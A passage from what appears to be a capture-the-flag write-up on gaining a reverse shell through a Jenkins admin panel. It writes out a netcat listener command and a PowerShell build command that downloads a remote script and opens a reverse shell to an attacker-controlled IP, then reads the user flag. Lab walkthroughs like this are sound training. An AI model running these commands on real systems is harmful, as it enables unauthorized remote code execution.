  Start the HTTP server using the command `python3 -m http.server`
 

<img width="954" alt="6" src="https://user-images.githubusercontent.com/28839345/164770159-04c46c5f-1af2-44ed-8017-0644c60c6f0a.png">

 The next step is to start a netcat listener using the command `nc -nlvp 4443`
 
<img width="471" alt="7" src="https://user-images.githubusercontent.com/28839345/164770160-16b40226-c043-43f4-93d0-acd57d31c430.png">

On Jenkins admin Panel click on the left hand menu "New item"


<img width="1207" alt="8" src="https://user-images.githubusercontent.com/28839345/164771448-e13843a2-a066-4bf9-a04f-978c1b5f0189.png">

 
<img width="1
            7" alt="8" src="https://user-images.githubusercontent.com/28839345/164770163-8e816b71-798f-46a9-933c-95dfdb139fd8.png">
 
 Enter a name for the project and click ‘Freestyle project’ and then click ‘Ok’ in the bottom left.
 

<img width="1226" alt="9" src="https://user-images.githubusercontent.com/28839345/164770168-384df549-250b-4e65-b5f3-8fb397965244.png">
 
 Scroll down to the ‘Build’ section and click the ‘Add build step’ dropdown. Click ‘Execute Windows batch command’.
 
<img width="1220" alt="10" src="https://user-images.githubusercontent.com/28839345/164770171-cf0fe03d-65f8-4e43-a435-3640b7980daf.png">
 
 Enter the following command in the "Execute Windows batch command"
 
`powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.49.68:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.49.68 -Port 4443`

Then click to 'Apply' and then 'save' in the bottom left corner.

<img width="1216" alt="11" src="https://user-images.githubusercontent.com/28839345/164770175-c1a723ea-7764-42d2-ade6-5ac4c8cfdbe1.png">

Lastly click on 'Build now'

<img width="1221" alt="12" src="https://user-images.githubusercontent.com/28839345/164770180-72d79978-6db7-4a47-9185-4305eecfdb15.png">

As you see you will connect to Jenkins with the reverse shell .

<img width="865" alt="13" src="https://user-images.githubusercontent.com/28839345/164770186-3ea1fe7f-4774-40d4-85a0-68fbbb064947.png">

<img width="725" alt="14" src="https://user-images.githubusercontent.com/28839345/164770188-ba434dfa-d4fb-477f-af70-6b31c2fc0905.png">

**What is the user.txt flag?**

Finally go to the directory show in the image bellow and use the command `cat user.txt` to get the flag for Task 1.

<img width="393" alt="15" src="https://user-images.githubusercontent.com/28839345/164770191-1969f65f-1d93-45c6-92ea-dca5b7e6115d.png">

#### [Task 2] Switching Shells
